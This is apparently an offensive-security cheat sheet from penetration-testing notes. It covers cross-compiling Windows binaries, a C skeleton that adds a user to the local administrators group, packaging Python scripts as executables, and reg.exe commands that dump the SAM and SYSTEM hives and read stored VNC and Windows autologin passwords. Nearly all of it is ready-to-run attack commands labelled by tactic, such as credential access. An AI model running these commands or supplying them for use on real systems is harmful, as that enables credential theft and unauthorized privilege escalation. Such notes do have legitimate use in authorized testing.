 ## cross compile for 32bit windows (on 32bit linux)
- `apt-get install mingw32`
- `i586-mingw32msvc-gcc <source>.c -o <outfile> -lws2_32`

## static application
> To compile static applications use the “-static” parameter additionally

## skelleton c code which calls system()

```
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```

---

# pyinstaller.py
- serivce: all
- tactics: weaponization

## generate exe from python file in windows
- `python pyinstaller.py --onefile <pythonscript>`

---

# reg.exe
- service: sam
- tactics: credential_access

## dump sam database
- `reg save HKLM\sam sam`
- `reg save HKLM\system system`

## query vnc passwords
- `reg query "HKCU\Software\ORL\WinVNC3\Password"`

## Windows autologin
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"`

---